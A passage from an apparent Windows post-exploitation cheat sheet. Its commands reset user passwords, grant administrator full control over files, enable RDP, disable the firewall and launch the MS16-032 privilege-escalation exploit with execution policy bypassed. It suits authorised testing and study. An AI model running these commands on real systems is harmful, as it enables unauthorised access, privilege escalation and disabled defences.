 #### Remove file

```
del /f file
```

#### Change password for user:

```
net user <user> <password>
```

#### List users:

```
net user
```

#### Info about a user:

```
net user <username>
```

#### Permissions on a folder recursively:

```
cacls *.* /t /e /g domainname\administrator:f
```

## Enable RDP access

This is useful to do because generally it is easier to manipulate windows using the GUI. The downside is that you're most definitely will have an impact on the machine, as you may have to create a user or change a user's password to get in.

```
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

#### Disable firewall

```
netsh firewall set opmode disable
```

#### Run exploit

```
C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

### JAWS

